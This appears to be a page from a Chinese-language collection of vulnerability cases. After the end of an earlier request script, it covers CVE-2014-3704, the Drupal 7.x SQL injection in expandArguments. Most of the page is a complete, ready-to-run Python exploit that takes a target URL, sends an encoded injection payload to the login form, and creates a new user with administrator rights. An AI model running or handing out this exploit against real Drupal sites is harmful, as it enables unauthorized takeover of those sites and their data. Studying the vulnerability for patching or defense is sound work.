 ```python
        response=urllib2.urlopen(URL+req)
        # Sends request and prints the response
        for line in response.readlines():
            print line.strip()
    except Exception as e: print e
```


# <a name='20'>[案例: CVE-2014-3704](#20)</a>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:dart:[回到目录](#toc)

Drupal在处理IN语句的时候，要通过expandArguments函数来展开数组。由于expandArguments函数没有对当前数组中key值进行有效的过滤，给攻击者可乘之机。攻击者通过精心构造的SQL语句可以执行任意PHP代码。

```python
#!/usr/bin/python

import sys, urllib2

if len(sys.argv) != 2:
    print "Usage: "+sys.argv[0]+" [URL]"
    sys.exit(0)

URL=sys.argv[1]
print "[+] Attempting CVE-2014-3704 Drupal 7.x SQLi"

user=raw_input("Username to add: ")

Host = URL.split('/')[2]
headers = {
    'Host': Host,
    'User-Agent': 'Mozilla',
    'Connection': 'keep-alive'}

# SQL Query send in body of post via the data variable:

# insert into users (uid, name, pass, mail, status) select max(uid)+1, '"+user+"', '[password_hash]', 'email@gmail.com', 1 from users; insert into users_roles (uid, rid) VALUES ((select uid from users where name='"+user+"'), (select rid from role where name = 'administrator')

data = "name%5b0%20%3binsert%20into%20users%20%28uid%2c%20name%2c%20pass%2c%20mail%2c%20status%29%20select%20max%28uid%29%2b1%2c%20%27"+user+"%27%2c%20%27%24S%24$S$CTo9G7Lx27gCe3dTBYhLhZOTqtJrlc7n31BjHl/aWgfK82GIACiTExGY3A9yrK1l3DdUONFFv8xV8SH9wr4r23HJauz47c/%27%2c%20%27email%40gmail.com%27%2c%201%20from%20users%3b%20insert%20into%20users_roles%20%28uid%2c%20rid%29%20VALUES%20%28%28select%20uid%20from%20users%20where%20name%3d%27"+user+"%27%29%2c%20%28select%20rid%20from%20role%20where%20name%20%3d%20%27administrator%27%29%29%3b%3b%20%23%20%5d=zRGAcKznoV&name%5b0%5d=aYxxuroJbo&pass=lGiEbjpEGm&form_build_id=form-5gCSidRr8NruKFEYt3eunbFEhLCfJaGuqGAnu80Vv0M&form_id=user_login_block&op=Log%20in"

req = urllib2.Request(URL+"?q=node&destination=node", data, headers)

try:
    response = urllib2.urlopen(req)
    print "Account created with user: "+user+" and password: password"
except Exception as e: print e
```